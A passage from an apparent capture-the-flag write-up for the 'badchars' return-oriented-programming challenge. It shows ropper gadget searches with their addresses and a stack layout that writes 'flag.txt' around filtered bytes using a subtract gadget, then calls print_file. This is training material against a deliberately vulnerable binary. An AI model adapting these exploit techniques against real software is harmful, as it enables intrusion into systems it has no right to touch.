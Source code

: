 We can see that we probably need to control r12, r13, r14, r15, and rdi (first arg) in order to make use of these gadgets, so let's see if we have pop's for those.

```
pwndbg> ropper -- --search "pop r1?"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r1?

[INFO] File: /root/working/badchars/badchars_64/badchars
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret; 

pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/badchars/badchars_64/badchars
0x00000000004006a3: pop rdi; ret;
```

We can use the same write location from before to make the challenge as well.

We could use any of the xor, add, or sub modifying gadgets there (also or and and gadgets would work), but I'll use the sub gadget. So what we're going to do is place the ascii char 1 value greater in place of every bad char and then just subtract one from each of those location. So the stack will look like the following:

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop_r gadget   | # gadget to get values into r12 through r15
8  bytes | "flag.txt"     | # 1st 8 bytes of the string into r12
8  bytes | write loc      | # place location to write into r13
8  bytes | 1              | # the amount to subtract into r14
8  bytes | write loc + 2  | # the loc of the first char to change 'a' into r15
8  bytes | sub gadget     | # gadget to actually modify memory
8  bytes | pop_r + 3      | # pop only r15 off because the other registers can stay the same
8  bytes | write loc + 3  | # loc of 'g'
8  bytes | sub gadget     |
8  bytes | write loc + 4  | # loc of '.'
8  bytes | sub gadget     |
8  bytes | write loc + 6  | # loc of 'x'
8  bytes | sub gadget     | # now flag.txt should be in memory
8  bytes | pop_rdi gadget | # place location of the sring in rdi for 1st param
8  bytes | write loc      | 
8  bytes | print_file loc | # call function to win
8  bytes | -------------- |

```

